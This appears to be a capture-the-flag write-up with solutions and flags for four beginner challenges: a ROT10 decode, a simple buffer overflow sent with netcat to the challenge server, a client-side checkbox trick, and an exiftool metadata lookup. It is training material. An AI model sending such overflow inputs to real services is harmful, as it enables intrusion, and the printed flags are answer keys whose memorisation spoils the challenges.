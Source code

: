 # Ancient Crypto
```sh
# ROT10

$ wget _
$ cat ancient_crypto.txt | tr 'k-za-jK-ZA-J' 'a-zA-Z'
```

<details>
<summary markdown="span">Answer</summary>

flag : ``
EASY_TO_BRUTE_FORCE
``
</details>

# My Little Pwn
```sh
$ wget _
$ tar zxvf _

python3 -c "print('A' * 64 + 'B')" | nc challenges.42ctf.org 3002
```

- what does `-zxvf` mean
  - z means (un)z̲ip
  - x means ex̲tract
  - v means print filenames v̲erbose
  - f means the following argument is a f̱ilename.

<details>
<summary markdown="span">Answer</summary>

flag : ``
you_re_ready_for_the_real_pwn
``
</details>

# Client Side
- inspect & enable checkbox

<details>
<summary markdown="span">Answer</summary>

flag : ``
html_is_too_easy_for_you
``
</details>

# It's all here
- `exiftool _`

<details>
<summary markdown="span">Answer</summary>

flag : ``
metada_has_no_secrets_for_you
``
</details>